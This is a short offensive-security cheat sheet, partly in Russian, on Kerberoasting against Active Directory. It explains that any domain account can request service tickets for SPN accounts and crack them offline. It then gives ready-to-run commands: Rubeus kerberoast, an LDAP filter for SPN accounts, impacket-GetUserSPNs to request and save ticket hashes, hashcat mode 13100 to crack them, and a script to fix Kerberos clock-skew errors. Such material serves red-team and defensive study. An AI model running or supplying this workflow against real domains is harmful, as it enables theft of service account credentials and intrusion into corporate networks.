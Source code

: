 # KERBEROASTING

### **Условие для проведения атаки**:

Учетная запись в домене с присвоенный SPN атрибутом.

Атакующий отправляет KRB\_TGS\_REQ сообщения с указанием SPN, ассоциированными с выявленными учетными записями. Контроллер домена не занимается авторизацией, то есть не проверяет имеет ли скомпрометированная учетная запись право доступа к запрашиваемым сервисам, (так как для выдачи TGS пользователю достаточно предоставить свой TGT) поэтому в ответ отправляются сообщения, содержащие TGS билеты, зашифрованные с использованием секретов сервисов. Таким образом, получив TGS-билеты, атакующий может попробовать подобрать пароль к сервисам по словарю оффлайн.

### Abuse

```powershell
Rubeus.exe kerberoast /stats
```

Ldap request to search for accounts that have SPN.

```powershell
"(&(objectClass=user)(objectCategory=user)(servicePrincipalName=*))"
```

Get users with SPN and send TGS-REQ

```bash
impacket-GetUserSPNs -dc-ip $DC_IP $Domain_FQDN/$username:$password -request -outputfile $file
```



### Brute

```bash
hashcat -m 13100 $kerberos_hashes $dictionary
```

### Fix errors

_\[-] Kerberos SessionError: KRB\_AP\_ERR\_SKEW(Clock skew too great)_

Если `ntpdate` или `rdate` не работают:&#x20;

```bash
TIME=$(ldapsearch -x -H ldap://dc.0x0security.local -s base -b "" currentTime | awk '/currentTime/ {print $2}' | grep -v "requesting:" | sed -E 's/^([0-9]{4})([0-9]{2})([0-9]{2})([0-9]{2})([0-9]{2})([0-9]{2})\.0Z$/\1-\2-\3 \4:\5:\6 UTC/') ; PARSED=$(date -u -d "${TIME}" +"%Y-%m-%d %H:%M:%S");  sudo date -u -s "${PARSED}"
```
